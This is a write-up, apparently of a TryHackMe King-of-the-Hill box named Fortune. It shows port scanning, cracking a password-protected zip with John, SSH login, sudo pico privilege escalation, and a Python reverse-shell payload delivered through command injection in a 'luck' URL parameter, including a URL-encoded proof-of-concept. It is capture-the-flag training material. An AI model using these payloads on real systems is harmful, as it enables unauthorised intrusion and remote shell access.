 # Fortune.THM - Koth 

as koth is an intensive competition on flags and king declerations it is naturaly a good practice to scan a bunch of things at ones. some what of a fuzzing for entries... in real life this type of stratagy is very loud so don't mimic anything from here this is nat practical at all

### enum
```bash
nmap fortune.thm -p- 
nmap fortune.thm -sV -sC 
nmap fortune.thm 
```
we got a lot of ports lets go for port 3333

### netcat
ill try to use netcat to see what's on the other side

nc fortune.thm 3333

I Got an encoded string... 
I pretty sure it's base64


```bash
nc fortune.thm 3333 | base64 -d
```

i get an output with a "magic byte" = PK
PK is the zip magic byte and every zip file is and shuld have PK at the start of the file.
In addition we can see a file name in the output called "creds.txt". this is defenetly a zip file...
lets save this output as a file

```bash
nc fortune.thm 3333 | base64 -d > test.zip
unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
```

looks like this file has a password, john is my man for the job!

### Meet my friend John.
creat the john file format with zip2john and then send it to john
```bash
zip2john test.zip > hash.txt
john hash.txt
unzip test.zip

unzip test.zip 
Archive:  test.zip
[test.zip] creds.txt password: 
replace creds.txt? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
 extracting: creds.txt               
```

now that we have our password to the zip file we can unzip and see what contain the creds.txt file
```bash
cat creds.txt
```
we found a use named "fortuna" and his password "**********"

```bash
ssh fortuna@fortune.thm
password:
```

and we are in!
```bash
sudo -l
```
we can see that we are indeed in the sudoers file but we can only run pico as sudo
lets go to https://gtfobins.github.io/ to see what pico can do for us

so i got the shell type b 'exploit'

we run 
```bash
pico -s /bin/sh
```

we type in the text editor "/bin/sh"
and then we will ^T (CTRL + T) to execute out command

and it works just fine Although I think a stable shell can be helpful here and in KOTH in general look here to learn more "https://www.youtube.com/watch?v=f2aSXGbD0NE"


## method b if password has changed / we are no longer a sudo user

try to do somthing like

```bash
cd /home
while True; do bash ./lucky_shell
```

this binery is just an exploit on the system and we can run it until we get a root shell


If you are locked out from fortuna

### gobuster
```bash
gobuster dir -w ~/Desktop/wordlists/wordlistex2.txt -u http://fortune.thm
```
found _style and a message within saying something about the luck paramater... so i just gave it a luck paramater...

```html
fortune.thm/_style/?luck=ls
```
and sure enoght it works! well.. not on the first try
most of the time this will fail but in some cases the command will execute...
lets check if python is around

```html
fortune.thm/_style/?luck="python -c 'print(1)'"
```
and it is!

kali:
```bash
nc -nlvp 1234
```

payload:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MYIP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

poc:
```html
http://fortune.thm/_styles/?luck=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22MYIP%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

we got a shell!
and the rest is the same.